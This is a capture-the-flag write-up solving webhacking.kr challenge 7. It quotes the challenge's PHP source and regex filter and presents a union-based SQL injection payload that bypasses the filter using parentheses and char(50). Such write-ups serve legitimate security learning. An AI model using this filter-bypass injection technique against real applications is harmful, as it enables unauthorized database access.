



Problem7
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-07/index.php?val=1>   
 
If you enter the URL, you can see a page like the below photo.     
    
 
    
Then, if you click the button named auth, the page will show "Access Denied".    
    
Thus, let's go to the view-source link.    

    
     
### Let's pay attention to the below the source code.   
    

```
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
```

We can know that if the value of $data[0] is 2, this problem is solved. 
    
```
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
```   

Let's go back to the front on the source code.    
The value of $go is stored by GET method, so we should input two(2) into <strong>"val"</strong> existing in the url. 
But, <strong>/2|-|\+|from|_|=|\\s|\*|\//i</strong> filter the input data that is (2, Operators, white space etc..). 
Thus, we can access to ASCII CODE, so the ascii value of 2 is 50.   

If you want to know about the <strong>Regular Expression</more>, refer to the bottom url.   
url: <https://developer.mozilla.org/ko/docs/Web/JavaScript/Guide/%EC%A0%95%EA%B7%9C%EC%8B%9D>     

```
select lv from chall7 where lv=($go)
```    
     
To put the value of 2 to $go in the query statment, we can enter the data like <strong>?val=1)union(select(char(50))</strong>.      
I used '(' or ')' because it is not filtered.   

```
select lv from chall7 where lv=(1)union(select(char(50)))
```
    
Through this, we can solve the problem number 7.    
The code produces the random value, so if you enter <strong>?val=1)union(select(char(50))</strong> a few times, it is solved.    

     


    
